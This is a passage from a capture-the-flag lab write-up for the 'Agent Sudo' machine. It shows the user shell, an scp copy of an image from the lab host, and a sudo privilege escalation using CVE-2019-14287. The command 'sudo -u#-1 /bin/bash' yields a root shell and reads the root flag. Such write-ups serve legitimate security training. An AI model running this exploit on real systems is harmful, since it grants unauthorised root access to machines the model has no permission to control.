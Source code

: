 ```
 System information disabled due to load higher than 1.0


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
```

Next let's download the shown image file on our machine
```
$ scp james@10.10.144.178:/home/james/Alien_autospy.jpg .
james@10.10.144.178's password: 
Alien_autospy.jpg                                                                100%   41KB 101.5KB/s   00:00  
```
![Alien image](./assets/images/Agent-Sudo/Alien_autospy.png)
Doing a reverse image search on this we obtain the name of the incident.

## Privilege escalation ##
Looking at james' permissions we see that we are allowed to ru n ```/bin/bash``` as any user other than root:
```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
So, we have to do with [CVE-2019-14287](https://www.exploit-db.com/exploits/47502).

And this is how we get our flag
```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
root@agent-sudo:~# cat /root/root.txt 
```